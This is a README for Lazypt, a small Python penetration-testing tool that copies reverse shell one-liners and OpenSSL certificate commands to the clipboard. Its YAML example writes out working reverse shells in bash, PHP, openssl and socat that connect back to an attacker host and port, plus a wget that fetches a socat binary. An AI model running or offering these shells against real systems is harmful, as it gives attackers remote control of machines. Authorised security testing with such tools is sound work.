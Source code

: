 # Lazypt v0.1

Lazypt is a simple Python program that pastes to your clipboard some common penetration testing commands.

## Features

- Reverse shell cheatsheet
- Openssl certificates conversion/generation cheatsheet

### Reverse shell cheatsheet
The following reverse shell commands are available. They can be expanded with your custom cheatsheet by editing the file revshell.yaml
- py
- pl
- sh
- php
- rb
- awk
- openssl
- socat

### YAML example

```yaml
---
- sh:
    code: bash -i >& /dev/tcp/{}/{} 0>&1
- php:
    code: php -r '$sock=fsockopen("{}",{});exec("/bin/sh -i <&3 >&3 2>&3");'
- openssl:
    code: |-
       Attacker> ncat --ssl -vv -l -p {}
       Target> mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect {}:{} > /tmp/s; rm /tmp/s
- socat:
    code: |-
      Attacker> socat file:`tty`,raw,echo=0 tcp-listen:{}
      Target> socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:{}:{}
      Socat binary> wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
```

place {} where you want to put LHOST and LPORT passed to the program as args.


### OpenSSL cheatsheet
The following reverse shell commands are available. They can be expanded with your custom cheatsheet by editing the file revshell.yaml
- Generate a Private Key and a CSR
- Generate a CSR from an Existing Private Key 
- Generate a CSR from an Existing Certificate and Private Key
- Generate a Self-Signed Certificate
- Generate a Self-Signed Certificate from an Existing Private Key
- Generate a Self-Signed Certificate from an Existing Private Key and CSR
- Convert PEM to DER
- Convert DER to PEM
- Convert PEM to PKCS7
- Convert PKCS7 to PEM  
- Convert PEM to PKCS12
- Convert PKCS12 to PEM
    
## Dependencies
- click
- pyperclip
- pyYAML

## Installation

```bash
git clone https://github.com/AndyBTuttofare/lazypt.git
cd lazypt
python setup.py install
```

## Usage

```bash
Usage: lazypt rsh [OPTIONS] LHOST LPORT [py|pl|sh|php|rb|awk|openssl|socat]

  Copy the chosen reverse shell code to the clipboard. It allows to switch
  the scripting language. (Does not run the commands)

Options:
  --help  Show this message and exit.
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.


## License
[MIT](https://choosealicense.com/licenses/mit/)
